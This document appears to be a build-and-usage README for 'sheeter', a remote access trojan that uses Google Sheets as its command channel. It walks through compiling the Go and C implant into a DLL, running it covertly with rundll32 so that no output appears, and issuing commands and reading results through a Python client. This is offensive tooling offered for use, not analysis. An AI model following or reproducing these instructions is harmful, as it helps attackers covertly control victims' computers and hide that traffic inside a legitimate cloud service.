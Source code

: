 installing the go packages:
	go get -v -u google.golang.org/api/sheets/v4
	go get -v -u golang.org/x/oauth2/google

installing python packages:
	pip install --upgrade google-api-python-client google-auth-httplib2 google-auth-oauthlib


1. Open a new command prompt in your stage1 folder
1. Create archive and header files.
	
	go build -buildmode=c-archive

2. Move header files that have been created to the cfiles location
	move *.h cfiles\main.h
	move *.a sheeter.a

3. Compile whole project
	gcc -shared -pthread -o sheeter.dll cfiles\main.c sheeter.a -lwinmm -lntdll -lws2_32

4. Remove command just in case you want to recompile
	:del *.dll *.a *.h cfiles\*.h
	
If everything went smooth a dll should appear in your stage1 folder

----- First run ------

1. Running the client
First thing you want to make sure that your client.py is working
If you created a new spreadsheet and are not using the default one
make sure you change the CONST values in the client.py script or
have supplied the -id flag

We will be using the -i flag with the default spreadsheet to run our commands
There are some more useful flags you can use, you can run client.py with the -h flag
to see the help message


Command:
	python client.py -i

This will enter the interactive mode,
Type in some commands
press enter and then enter again to validate your commands
and check your spreadsheet file for changes.
If your spreadsheet changed then you are ready to go.

2. running the rat
I will use the already compiled dll in the release folder.
You can run the dll using a few methods but ill just use rundll32 with the Run
flag as its main function

Command:
	rundll32.exe sheeter.dll Run

Notice that no output will be created when running with rundll32.


3. Enjoying the fruits of your labour:
now you can use your client.py to run commands and check their output 
